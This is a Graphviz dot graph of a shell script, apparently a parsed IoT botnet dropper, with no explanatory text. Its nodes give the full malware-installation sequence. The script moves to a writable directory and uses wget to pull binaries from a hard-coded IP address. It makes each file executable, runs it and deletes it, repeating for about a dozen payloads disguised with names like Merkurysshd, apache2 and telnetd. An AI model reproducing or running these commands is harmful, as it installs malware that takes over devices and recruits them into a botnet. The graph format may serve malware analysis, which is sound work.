 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://198.12.97.93/Merkuryntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x Merkuryntpd "];
12 -> 14 [label=";,"];
14 [label="./Merkuryntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf Merkuryntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://198.12.97.93/Merkurysshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x Merkurysshd "];
30 -> 32 [label=";,"];
32 [label="./Merkurysshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf Merkurysshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://198.12.97.93/Merkuryopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x Merkuryopenssh "];
48 -> 50 [label=";,"];
50 [label="./Merkuryopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf Merkuryopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://198.12.97.93/Merkurybash "];
64 -> 66 [label=";,"];
66 [label="chmod +x Merkurybash "];
66 -> 68 [label=";,"];
68 [label="./Merkurybash "];
68 -> 70 [label=";,"];
70 [label="rm -rf Merkurybash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://198.12.97.93/Merkurytftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x Merkurytftp "];
84 -> 86 [label=";,"];
86 [label="./Merkurytftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf Merkurytftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://198.12.97.93/Merkurywget "];
100 -> 102 [label=";,"];
102 [label="chmod +x Merkurywget "];
102 -> 104 [label=";,"];
104 [label="./Merkurywget "];
104 -> 106 [label=";,"];
106 [label="rm -rf Merkurywget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://198.12.97.93/Merkurycron "];
118 -> 120 [label=";,"];
120 [label="chmod +x Merkurycron "];
120 -> 122 [label=";,"];
122 [label="./Merkurycron "];
122 -> 124 [label=";,"];
124 [label="rm -rf Merkurycron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://198.12.97.93/Merkuryftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x Merkuryftp "];
138 -> 140 [label=";,"];
140 [label="./Merkuryftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf Merkuryftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://198.12.97.93/Merkurypftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x Merkurypftp "];
156 -> 158 [label=";,"];
158 [label="./Merkurypftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf Merkurypftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://198.12.97.93/Merkurysh "];
172 -> 174 [label=";,"];
174 [label="chmod +x Merkurysh "];
174 -> 176 [label=";,"];
176 [label="./Merkurysh "];
176 -> 178 [label=";,"];
178 [label="rm -rf Merkurysh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://198.12.97.93/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://198.12.97.93/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://198.12.97.93/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
